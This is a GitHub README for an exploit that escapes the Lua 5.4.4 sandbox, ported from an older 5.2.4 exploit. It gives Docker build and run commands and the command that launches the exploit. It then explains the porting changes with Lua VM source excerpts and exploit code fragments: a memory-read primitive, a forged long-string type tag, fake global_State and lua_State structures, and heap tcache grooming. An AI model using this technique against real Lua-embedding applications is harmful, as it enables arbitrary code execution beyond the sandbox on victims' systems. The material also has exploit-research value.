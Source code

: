 # lua-5.4.4-sandbox-escape

It is an exploit and Docker created by applying the sandbox escape exploit code that existed in the previous version 5.2.4 to version 5.4.4.


### Create docker image

```sh
docker build --tag lua-5.4.4-escape/x64:latest x64
```
### How to run

```sh
docker run -it lua-5.4.4-escape/x64:latest /bin/bash
```

### Exploit

```sh
/LUA/lua/lua /LUA/exploit.lua
```



### What has changed from version 5.2.4 sandbox escaping exploit code?

- TString

    `v5.2.4 Lua TString`
    ```c++
    /*
    ** Header for string value; string bytes follow the end of this structure
    */
    typedef union TString {
      L_Umaxalign dummy;  /* ensures maximum alignment for strings */
      struct {
        CommonHeader;
        lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
        unsigned int hash;
        size_t len;  /* number of characters in string */
      } tsv;
    } TString;
    ```


    `v5.4.4 Lua TString`
    ```c++
    /*
    ** Header for a string value.
    */
    typedef struct TString {
      CommonHeader;
      lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
      lu_byte shrlen;  /* length for short strings */
      unsigned int hash;
      union {
        size_t lnglen;  /* length for long strings */
        struct TString *hnext;  /* linked list for hash table */
      } u;
      char contents[1];
    } TString;
    ```

    Moving from 5.2.4 to 5.4.4, you can see that the variable handling the length of TString is managed by dividing it into shrlen and lnglen.

- OP_LEN code

    `v5.2.4 Lua OP_LEN code`
    ```c++

    void luaV_execute (lua_State *L) {
    /*skipped*/
    vmcase(OP_LEN,
            Protect(luaV_objlen(L, ra, RB(i)));
          )
    /*skipped*/
    }


    void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
      const TValue *tm;
      switch (ttypenv(rb)) {
    /*skipped*/
        case LUA_TSTRING: {
          setnvalue(ra, cast_num(tsvalue(rb)->len));
          return;
        }
    /*skipped*/
    
      }
      callTM(L, tm, rb, rb, ra, 1);
    }
    
    #define LUA_TSTRING     4
    
    
    ```


    `v5.4.4 Lua OP_LEN code`
    ```c++
    void luaV_execute (lua_State *L, CallInfo *ci) {
    /*skipped*/
        vmcase(OP_LEN) {
                Protect(luaV_objlen(L, ra, vRB(i)));
                vmbreak;
              }
    /*skipped*/
    }
    
    /*
    ** Main operation 'ra = #rb'.
    */
    void luaV_objlen (lua_State *L, StkId ra, const TValue *rb) {
      const TValue *tm;
      switch (ttypetag(rb)) {
    /*skipped*/
        case LUA_VSHRSTR: {
          setivalue(s2v(ra), tsvalue(rb)->shrlen);
          return;
        }
        case LUA_VLNGSTR: {
          setivalue(s2v(ra), tsvalue(rb)->u.lnglen);
          return;
        }
    /*skipped*/
    
      }
      luaT_callTMres(L, tm, rb, rb, ra);
    }
    
    /* Variant tags for strings */
    #define LUA_TSTRING     4
    #define LUA_VSHRSTR makevariant(LUA_TSTRING, 0)  /* short strings */
    #define LUA_VLNGSTR makevariant(LUA_TSTRING, 1)  /* long strings */
    ```
    
    As the length of TString is treated as shrlen and lnglen, the behavior of OP_LEN for strings has also changed, so tag must be set to LUA_VLNGSTR.
    
    
    ```lua
    local function readAddr(addr)
        collectgarbage()
    -- skipped
        local _addr = numTo64L(addr - 16)
        local padding_a = string.rep('\65', 8) -- 0x41 padding
        local padding_b = string.rep('\20', 15) -- LUA_VLNGSTR tag padding
    -- skipped
    
    ```



- Addition OP_LOADI code

    Looking at the foo function that exists in the existing code, an integer value is put into the a variable. In version 5.2.4, the LOADK command is used to do this. However, since version 5.4.4 uses the LOADI command to handle integer assignment, it was possible to induce the use of the LOADK command by changing the integer assignment to a string assignment.
    
    `v5.2.4 Sandbox Escaping exploit code`
    
    ```lua
    local function foo()
        local a=1 a=2 a=3
        return (#a)
    end
    ```
    
    
    `v5.4.4 Sandbox Escaping exploit code`
    
    ```lua
    local function foo()
        local a="a" a="b" a="c" 
        return (#a)
    end
    ```

- Changing size of global_State, lua_State structure

    When running the existing exploit, to create fake global_State and fake lua_State, a string is created as much as the size of the structure. At this time, the size of the structure changes and this is reflected.
    
    ```lua
        local l_G_addr = readAddr(readAddr(t_addr) + 0x18)
    
        l_G = memcpy(l_G_addr, 1416) -- sizeof(global_State)=1416
        l_G = numTo64L(addr) .. numTo64L(arg) .. l_G:sub(17)
        l_G_addr = bufferAddress(l_G)
    
    
        local t_buffer = memcpy(t_addr, 200) -- sizeof(lua_State)=200
    ```


- Cleaning tcache bins (Ubuntu glibc ptmalloc)

    In the luaM_newvectorchekced function, the malloc function is called and the chunk of variable k is allocated. At this time, if the tcache bin is full, the desired chunk is not allocated and the exploit fails. Because of this, we allocate a variable and empty the chunk that exists in the tcache bin.
    
    ```lua
        -- clean tcache bins
    
        local t1 = {}
        local t2 = {}
        local t3 = {}
        local t4 = {}
        local t5 = {}
        local t6 = {}
        local t7 = {}
    
    
        local intermid = {}
    
        collectgarbage()
        intermid = nil
        k=nil
        collectgarbage()
    
        g, err = load(g)
        g() 
    ```





### Reference

    [https://github.com/erezto/lua-sandbox-escape](https://github.com/erezto/lua-sandbox-escape)